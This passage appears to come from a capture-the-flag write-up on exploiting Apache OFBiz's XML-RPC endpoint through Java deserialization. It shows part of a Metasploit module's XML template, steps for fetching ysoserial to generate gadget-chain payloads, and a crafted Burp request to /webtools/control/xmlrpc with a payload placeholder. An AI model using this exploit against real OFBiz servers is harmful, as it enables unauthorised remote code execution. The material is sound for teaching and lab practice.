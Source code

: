               <methodName>#{rand_text_alphanumeric(8..42)}</methodName>
              <params>
                <param>
                  <value>
                    <struct>
                      <member>
                        <name>#{rand_text_alphanumeric(8..42)}</name>
                        <value>
                          <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">#{Rex::Text.encode_base64(data)}</serializable>
                        </value>
                      </member>
                    </struct>
                  </value>
                </param>
              </params>
            </methodCall>
          XML
        )
      end
    

#### Find Payload

I’ll download [ysoserial](https://github.com/frohoff/ysoserial) (`sudo wget
https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-
master-SNAPSHOT.jar -O /usr/local/bin/ysoserial` and `sudo +x
/usr/local/bin/ysoserial`) to generate Java serialized payloads. The trick
with yso is always finding the right set of gadgets to use (Payload). I’ll
typically try a bunch, starting with the `CommonsCollection` ones, and then
other `Commons` ones.

I’ll get a request that looks like this in Burp Repeater:

    
    
    POST /webtools/control/xmlrpc HTTP/1.1
    Host: localhost:8443
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    DNT: 1
    Connection: close
    Cookie: JSESSIONID=6BED6745363C7728AAE4274F77E4B6D2.jvm1; OFBiz.Visitor=10000
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Type: test/xml
    Content-Length: 3145
    
    <?xml version="1.0"?>
    <methodCall>
      <methodName>0xdf0xdf</methodName>
      <params>
        <param>
          <value>
            <struct>
              <member>
                <name>0xdf0xdf</name>
                <value>
                  <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[yso output here]</serializable>
                </value>
              </member>
            </struct>
          </value>
        </param>